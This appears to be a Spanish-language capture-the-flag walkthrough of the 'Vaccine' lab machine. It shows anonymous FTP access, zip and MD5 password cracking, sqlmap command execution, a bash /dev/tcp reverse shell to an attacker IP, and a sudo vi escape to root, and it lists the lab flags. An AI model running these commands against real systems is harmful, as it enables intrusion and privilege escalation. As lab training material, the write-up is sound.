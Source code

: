 ```yaml
---
title: Máquina Vaccine
published: true
---
```


Jorge Marco Arráez

Temas tratados:

*   Crackeo de fichero .zip

*   Contraseñas a partir de hashes

*   Vulnerabilidades de bases de datos

## [](#header-3) 1)   Besides SSH and HTTP, what other service is hosted on this box?

```
nmap -sCV --min-rate 5000 -n -oG nmap/allPorts -Pn $IP
```

FTP en el puerto 21
SSH en el puerto 22 -> Versión: OpenSSH 8.0p1 Ubuntu 6ubuntu0.1
HTTP en el puerto 80 -> Versión del servidor: Apache httpd 2.4.41 ((Ubuntu))

La página web es la siguiente:

![imagen de login](../assets/capturas_maquinas/vaccine/1-login.png)

## [](#header-3) 2)    This service can be configured to allow login with any password for specific username. What is that username?


Como ya hemos visto en máquinas anteriores, FTP permite registrarse sin contraseña al usuario "anonymous".


## [](#header-3) 3)  What is the name of the file downloaded over this service?

Al conectarme con FTP, veo que usa la versión vsFTPd 3.0.3

```
username = "anonymous"
password = ""
get backup.zip
```

## [](#header-3) 4) What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

![texto_alternativo](../assets/capturas_maquinas/vaccine/2-john.png)

```
zip2john backup.zip > hash.txt

john -w=/home/jorge/Descargas/rockyou.txt hash.txt
john --show 
```

La contraseña es: 
```
741852963
```

## [](#header-3) 5)  What is the password for the admin user on the website?

La contraseña no está en plano en el arhchivo .php, lo que está es el hash md5 de la contraseña.

![texto_alternativo](../assets/capturas_maquinas/vaccine/3-contra_admin.png)

El hash es: "2cb42f8734ea607eefed3b70af13bbd3"

Con crackstation.net podemos encontrar la contraseña: "qwerty789"

![texto_alternativo](../assets/capturas_maquinas/vaccine/4-crackstation.png)

## [](#header-3) 6)    What option can be passed to sqlmap to try to get command execution via the sql injection?

Si ejecutamos sqlmap -h para ver la ayuda del programa, vemos que la opción que nos interesa es --os-shell

![texto_alternativo](../assets/capturas_maquinas/vaccine/6-sqlmap.png)

## [](#header-3) 7)    What program can the postgres user run as root using sudo?

vi

## [](#header-3) 8)  Submit user flag

Usando sqlmap conseguimos una os-shell.

![texto_alternativo](../assets/capturas_maquinas/vaccine/7-comadno_sqlmap.png)


Donde el valor de cookie es el que obtenemos al iniciar sesion en la página como admin con la contraseña qwerty789.

obtenemos acceso a una shell donde podemos establecer una reverse shell con nuestro ordenador con 

```
bash -c "bash -i >& /dev/tcp/10.10.15.224/443 0>&1"
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/9-reverse.png)


Ahora hay que convertir esta reverse shell en una reverse shell estable para poder trabajar sin que expire la sesión.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

cd /var/lib/postgresql
xxd user.txt
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/10-userflag.png)

```
user=ec9b13ca4d6229cd5cc1e09980965bf7
```

## [](#header-3) 9)  Submit root flag


```
cd /var/www/html
cat dashboard.php
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/11-dashboardphp.png)

```
username=postgres
password=P@s5w0rd!
```

Podemos usar esas credenciales para establecer una sesión ssh.

```
ssh postgres@10.129.95.174
P@s5w0rd!
```

Así es más cómodo ya que no hay que estabilizar la shell.
Una vez dentro, vemos que privilegios tiene el usuario postgres

![texto_alternativo](../assets/capturas_maquinas/vaccine/12-sudo-l.png)

Puede ejecutar /bin/vi para editar el archivo pg_hba.conf

Busco en internet y encuentro la siguiente página:

https://gtfobins.github.io/gtfobins/vi/#sudo

Al añadir las líneas especificadas en la sección shell b):

```
vi
:set shell=/bin/sh
:shell
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/13-rootflag.png)

Nos hemos convertido en root.

```
root=dd6e058e814260bc70e9bbdef2715849
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/14-pwn.png)